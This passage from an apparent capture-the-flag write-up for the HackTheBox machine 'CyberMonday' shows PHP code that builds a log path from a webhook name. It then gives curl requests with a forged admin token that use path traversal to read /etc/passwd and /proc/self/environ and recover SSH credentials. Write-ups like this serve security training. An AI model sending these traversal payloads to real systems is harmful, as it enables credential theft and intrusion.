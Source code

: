 [!Desktop View](/images/cybermonday/redis5.png)

```
$webhook_find = $webhook->find("uuid", $request->uuid);
$logPath = "/logs/{$webhook_find->name}/";
```

```
$webhook->create([
            "name" => $this->data->name,
            "description" => $this->data->description,
            "action" => $this->data->action,
            "uuid" => $webhook_uuid->toString()
        ]);
```

After reading and interpret this files, we can found a invalidation from the regex, which manage all data. Considering this, we can explore with some LFI payloads.

```
curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs -H "x-api-key: 22892e36-1770-11ee-be56-0242ac120002" -H "x-access-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MSwidXNlcm5hbWUiOiJhZG1pbiIsInJvbGUiOiJhZG1pbiJ9.hsjDWoGJbgx_ygJe9nlfu4dNZHUZuF3Igy43NfKQ7aE" -H "Content-Type: application/json" -d '{"action":"read", "log_name":" .. / .. / etc / passwd"}' -X POST | json_pp
```

Considering this payload set, we can change for some sensitives proccess, which one in specific we can found the credentials inside of memory dump, and logging to the machine by SSH with correct user and got the user flag.
```
curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77/logs -H "x-api-key: 22892e36-1770-11ee-be56-0242ac120002" -H "x-access-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6MSwidXNlcm5hbWUiOiJhZG1pbiIsInJvbGUiOiJhZG1pbiJ9.hsjDWoGJbgx_ygJe9nlfu4dNZHUZuF3Igy43NfKQ7aE" -H "Content-Type: application/json" -d '{"action":"read", "log_name":" .. / .. / logs / .. / proc / self  / environ  "}' -X POST | json_pp
```
